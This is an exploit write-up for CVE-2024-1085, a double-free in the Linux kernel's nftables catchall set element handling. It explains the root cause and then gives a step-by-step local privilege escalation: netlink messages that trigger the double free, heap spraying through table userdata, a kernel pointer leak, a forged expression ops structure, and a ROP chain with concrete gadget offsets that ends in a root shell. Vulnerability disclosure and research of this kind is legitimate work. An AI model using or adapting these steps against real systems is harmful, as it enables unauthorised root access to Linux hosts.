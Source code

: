 # Exploit detail about CVE-2024-1085
If you want to get some base information about CVE-2024-1085, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Cause anaylysis

In function `nft_setelem_catchall_deactivate`, it checks if an elem is active by this : 

```c
...
list_for_each_entry(catchall, &set->catchall_list, list) {
		ext = nft_set_elem_ext(set, catchall->elem);
		if (!nft_is_active(net, ext))
			continue;
...
```
but it should use function `nft_is_active_next`. This vulnerability makes it possible to free a catchall->elem twice.


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A, and a catchall set element B in pipapo set A.
- Delete element B. 
- Delete element B again. 

By the way, we need to send the command of step 2 and step 3 together because we need to avoid set element B being actually released before our step 3.

## Exploit it

I exploit CVE-2024-1085 by following steps:

- 1. Create a pipapo set `A`, and a catchall set element `B` in it.
- 2. Trigger the vulnerability by following messages:
   
   ```c
    msg_list[0] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element first time
    msg_list[1] = del_table_msg(test_table);//kfree another heap to avoid crash
    msg_list[2] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element second time
    send_msg_list(socket, msg_list, 3);
   ```
   	After this we kfree the catchall set element `B` twice. This makes it possiable that we alloc the heap back twice.
- 3. Try to alloc the heap of the catchall set element `B` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table C` and `nft_table D`.
- 4. Delete `nft_table C`.
- 5. Spray heap to get the heap of `nft_table C->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 6. Dump `nft_table D`. Now we leak `nft_last_ops`.
- 7. Create another set element `E`. Then dump the `nft_table D` again. We can get the pointer of the set element `E` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 8. Delete set element `E`. Fill the heap memory of set element `E` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 9. Delete `nft_table D`.
- 10. Fill the heap memory of `nft_table D ->udata` with fake `nft_expr` and ROP gadget.
- 11. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.

